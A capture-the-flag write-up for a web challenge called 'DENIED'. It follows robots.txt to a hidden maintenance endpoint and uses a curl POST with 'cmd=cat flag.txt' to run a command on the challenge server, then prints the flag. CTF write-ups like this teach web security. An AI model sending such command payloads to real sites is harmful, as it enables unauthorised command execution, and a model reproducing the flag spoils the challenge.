



# DENIED #

**Category:**	Web Security  
**Points:**	75

**Prompt:** 
* Sometimes websites are afraid of the terminator finding things out. http://challenge.acictf.com:2173 The flag is in flag.txt.

**Hints:** 
* How can websites keep search engines from finding private information?
* Sometimes the developers leave some comments that give you a hint about what to do…
* You can use the cat command to read files

**Solution:**
* Go to the webpage:
* 
* Based on hints of disallowing certain things, check out the robots.txt file:
    * http://challenge.acictf.com:2173/robots.txt
* 
* Check out the other links
    * The Disallowed link says to run a command
    * Checking the source gives a comments to POST a cmd to a form link
    * 
* Use the curl command to POST data to the form it listed
```
curl -d "cmd=cat flag.txt" http://challenge.acictf.com:2173/secret_maintenance_foo_543212345
```
* ACI{2df2ccc8f8bf235cfc725d29f15}


